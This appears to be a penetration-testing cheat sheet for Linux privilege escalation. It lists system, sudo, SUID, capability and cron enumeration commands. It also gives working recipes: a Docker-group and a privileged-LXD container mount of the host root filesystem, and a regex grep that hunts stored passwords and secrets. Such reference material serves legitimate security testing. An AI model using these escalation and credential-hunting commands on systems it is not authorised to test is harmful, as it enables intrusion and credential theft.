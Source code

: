 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Linux Privilege Escalation

## LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

## System Info

Obtain information about the system **architecture, distribution, and kernel version**.

{% code overflow="wrap" %}
```bash
uname -a  # System information
lsb_release -a  # Distribution information
getconf LONG_BIT  # System architecture
cat /proc/version  # Kernel version
cat /etc/os-release  # OS details
```
{% endcode %}

## Path

Check if you have **write permissions** for any directory in the PATH.

{% code overflow="wrap" %}
```bash
echo $PATH | tr ':' '\n' | sort -u | xargs -I{} bash -c 'if [ -w "{}" ]; then echo "[+] {}"; fi'
```
{% endcode %}

## Environment Variables

Sometimes we can find password or sensitive information in environment variables.

```bash
env  # Environment variables
set  # Shell variables
```

## Groups

List all the groups users belongs to.

```bash
id [user]
groups [user]
```

### Docker

If you belong to the **Docker group**, you could **mount the filesystem** within a container and have full access to it, allowing you to modify it.

```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```

### LXD/LXC

Similar to Docker, with **LXD/LXC**, we can also **mount the filesystem** within a container, granting full access to it.

{% code overflow="wrap" %}
```bash
# On your machine, download and build an alpine image and transfer it to the host
git clone https://github.com/saghul/lxd-alpine-builder && cd lxd-alpine-builder && sudo ./build-alpine
```
{% endcode %}

```bash
# Import the image
lxc image import ./alpine.tar.gz --alias privimg
# Initialize
lxd init
# Create the containter
lxc init privimg privcont -c security.privileged=true
# Mount the filesystem
lxc config device add privcont privdev disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start privcont
# Interactive shell
lxc exec privcont /bin/sh
```

## Sudo

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
# List user privileges
sudo -l
# Version
sudo -V | grep "Sudo ver"
```

## Capabilities <a href="#capabilities" id="capabilities"></a>

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities)

```bash
getcap -r / 2>/dev/null
```

## SUID

[https://gtfobins.github.io/](https://gtfobins.github.io/)

```bash
find / -type f -perm -4000 -ls 2>/dev/null
```

## Open Ports

```bash
ss -nltp
netstat -punta
```

## Cron Jobs

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs)

```bash
crontab -l
find / -name "cron*" 2>/dev/null
ls -l /var/log/syslog
ls -l /var/log/cron
```

## Process Monitor

{% hint style="info" %}
You can blacklist words on the `grep -Ev` section.

For example, to filter the actual user processes: `grep -Ev "kworker|$USER"`
{% endhint %}

{% code overflow="wrap" %}
```bash
while true; do new=$(ps -eo user,cmd); diff <(echo "$old") <(echo "$new") | grep -E "<|>" | grep -Ev "kworker"; old=$new; done
```
{% endcode %}

## User Files

```bash
find / -xdev -user <user> 2>/dev/null
```

## Passwords

{% code overflow="wrap" %}
```bash
grep -P -a -i -R --exclude="*."{js,css,html} "(\b\w*(pass|pwd|auth|secret)\w*\b\s*[:=]\s*\S+)|['\"]\s*\w*(pass|pwd|auth|secret)\w*\s*['\"]\s*:\s*['\"]\S+['\"]|\(\s*['\"]\w*(pass|pwd|auth|secret)\w*['\"]\s*,\s*['\"]\S+['\"]\s*\)|(\w+://\S+:\S+@)|(\\$\w{1,4}[\\$./A-Za-z0-9]{8,50})"
```
{% endcode %}

